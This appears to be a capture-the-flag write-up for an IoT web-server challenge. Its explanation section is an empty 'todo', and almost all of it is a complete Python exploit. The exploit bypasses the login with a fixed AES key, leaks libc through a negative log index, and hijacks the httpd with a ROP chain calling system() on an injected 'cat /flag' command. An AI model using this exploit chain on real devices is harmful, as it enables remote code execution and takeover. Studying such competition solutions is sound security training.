

# hello_iot

> 这个IoT站点的鉴权似乎比较严格

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |yes   |
|libc  |2.31-0ubuntu9.18|

## 解题思路

todo

## EXPLOIT

```python
from pwn import *
from aes import aes_encrypt_block
import re
import sys
import requests

context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
IP = '45.40.247.139'
PORT = 25642
URL_BASE = f'http://{IP}:{PORT}'
LIBC = './libc-2.31.so'

# Get decrypted key
response = requests.get(f'{URL_BASE}/login.html')
match = re.search(r'<strong>([a-z]+)</strong>', response.text)
assert match
rand_key = match.group(1)
info(f'Retrieve random key: {rand_key}')

# Encrypt the key
cipher = aes_encrypt_block(rand_key.encode(), b'0123456789ABCDEF').hex()
info(f'Try this cipher: {cipher}')

# Login the system
response = requests.post(f'{URL_BASE}/login', data=f'ciphertext={cipher}')
assert response.status_code == 200

# Now test if the key is right and leak libc
response = requests.post(f'{URL_BASE}/log', data='index=-173')
if response.status_code == 401:
    warn('Unable to log in!')
    sys.exit(1)
assert response.status_code == 200
match = re.search(r'<pre>(0x[a-f0-9]+)</pre>', response.text)
assert match

libc = ELF(LIBC)
libc_base = int(match.group(1), 16) - libc.symbols['malloc']
success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
libc.address = libc_base

if len(sys.argv) > 1 and sys.argv[1] == 'next':
    # next stage: print flag in work.html
    response = requests.get(f'{URL_BASE}/work.html')
    assert 'DASCTF' in response.text
    success(f'Flag is: {response.text}')
    sys.exit(0)

# Before attack, draft a RCE command first
cmd = 'cat /flag > work.html;'
response = requests.post(f'{URL_BASE}/work', data=f'     {cmd}\r\n')
match = re.search(r'Total=(\d+)', response.text)
assert match
slot = int(match.group(1)) - 1
info(f'Hijack httpd to run {cmd} at slot {slot}')

# Then fetch its address
response = requests.post(f'{URL_BASE}/log', data=f'index={slot}')
match = re.search(r'0x[a-f0-9]+', response.text)
assert match
rce = int(match.group(0), 16)
success(GOLD_TEXT(f'Found RCE command on {rce:#x}'))

# Construct a payload to perform ROP
gadgets = ROP(libc)
chain = flat(gadgets.rdi.address, rce,
             gadgets.ret.address, # balance stack
             libc.symbols['system'],
             gadgets.rdi.address, 0,
             libc.symbols['exit'])

# Finally trigger the ROP
t = remote(IP, PORT)
payload = b'NOTME' + pack(0, 0x48 * 8) + chain + b'YCB2025\n\n'
body = f'''POST /work HTTP/1.0\r
Host: {IP}:{PORT}\r
Content-Length: {len(payload)}\r
\r
'''.encode()
t.send(body + payload)
t.close()
```


